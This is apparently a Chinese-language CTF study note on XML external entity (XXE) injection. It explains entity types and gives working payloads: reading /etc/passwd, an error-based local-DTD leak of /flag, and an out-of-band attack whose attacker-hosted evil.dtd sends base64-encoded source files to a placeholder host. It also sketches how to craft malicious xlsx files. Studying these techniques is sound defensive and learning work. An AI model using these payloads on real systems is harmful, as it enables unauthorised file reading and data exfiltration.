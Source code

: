# 参考
	- https://www.cnblogs.com/20175211lyz/p/11413335.html
	- XML 外部实体注入
- # 概念
	- 内部实体
		- ```xml
		  <!DOCTYPE note [
		      <!ENTITY a "admin">
		  ]>
		  ```
	- 参数实体
		- ```xml
		  <!DOCTYPE note [
		      <!ENTITY % b "<!ENTITY a \'admin\'>">
		      %b;
		  ]>
		  <i>&a;</i>
		  ```
	- 外部参数实体
		- ```xml
		  <!DOCTYPE note> [
		      <!ENTITY % d SYSTEM "http://xxx.xxx.xxx.xxx/xml.dtd">
		      %d;
		  ]>
		  <note>&d1;</note>
		  ```
	- 转译
		- ```xml
		  <!DOCTYPE note [
		      <!ENTITY % b "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x61;&#x20;&#x27;&#x61;&#x73;&#x64;&#x66;&#x27;&#x3e;">
		      %b;
		  ]>
		  <note>&a;</note>
		  ```
	- PEReferences forbidden
		- 在标记声明里不能使用参数声明
- # PHP读取XML
	- {{embed ((632ac609-e10a-42ee-89c4-df1a3ce9b17d))}}
- # 操作
	- ```xml
	  <?xml version="1.0" encoding="UTF-8"?>
	  <!DOCTYPE testtest [<!ENTITY xxe SYSTEM "file:///etc/passwd">  ]>
	  <user><username>&xxe;</username><password>admin</password></user>
	  ```
	- 在禁止加载外部实体时利用报错
		- ```xml
		  <?xml version="1.0"?>
		  <!DOCTYPE message[
		    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
		    <!ENTITY % ISOamso '
		    <!ENTITY &#x25; file SYSTEM "file:///flag">
		    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///aaaaa/&#x25;file;&#x27;>">
		    &#x25;eval;
		    &#x25;error;
		  '>
		  %local_dtd;
		  ]>
		  ```
		- 上面`ISOamso`中的字符串在解码后会变成：
		- ```xml
		  <!DOCTYPE message[
		  <!ENTITY % file SYSTEM "file:///flag">
		  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///aaaaa/%file;'>">
		  %eval;
		  %error;
		  ]>
		  ```
		- java 中 xxe 的`file://`可以读取目录
- # OOB
  id:: 64301d45-52ef-4288-a4f1-f268848799a7
	- victim
	  
	  ```xml
	  <!DOCTYPE updateProfile [
	    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./target.php">
	    <!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx/evil.dtd">
	    %dtd;
	    %send;
	  ]>
	  ```
	- server: evil.dtd:
	- ```xml
	  <!ENTITY % all
	    "<!ENTITY &#x25; send SYSTEM 'http://xxx.xxx.xxx/?data=%file;'>"
	  >
	  %all;
	  ```
- # 制作恶意xlsx文件
	- 修改后缀为zip并解压一个xlsx文件，修改里面的xml文件，再压缩
	- 示例：[[CTFWEB/WP/BUUCTF/网鼎杯 2020 青龙组 filejava]]
